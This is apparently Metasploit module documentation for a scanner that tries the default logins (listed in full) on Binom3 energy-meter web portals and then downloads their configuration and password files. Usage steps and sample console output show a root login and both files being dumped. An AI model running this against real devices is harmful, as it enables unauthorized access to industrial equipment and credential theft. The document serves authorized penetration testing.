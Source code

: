 This module scans for Binom3 Multifunctional Revenue Energy Meter and Power Quality Analyzer management login portal(s), and attempts to identify valid credentials. There are four (4) default accounts - 'root'/'root', 'admin'/'1', 'alg'/'1', 'user'/'1'. In addition to device config, 'root' user can also access password file. Other users - admin, alg, user - can only access configuration file. The module attempts to download configuration and password files depending on the login user credentials found.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/binom3_login_config_pass_dump```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/binom3_login_config_pass_dump
msf auxiliary(binom3_login_config_pass_dump) > set rhosts 1.2.3.4
msf auxiliary(binom3_login_config_pass_dump) > run

[+] 1.3.3.7:80 - Running Binom3...
[*] 1.3.3.7:80 - Trying username:"root" with password:"root"
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "root":"root"
[+] ++++++++++++++++++++++++++++++++++++++
[+] #{rhost} - dumping configuration
[+] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7:80 - File retrieved successfully!
[*] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000003_moduletest_1.3.3.7_Binom3_config_165927.txt
[+] ++++++++++++++++++++++++++++++++++++++
[+] #{rhost} - dumping password file
[+] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7:80 - File retrieved successfully!
[*] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000004_moduletest_1.3.3.7_Binom3_passw_010954.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
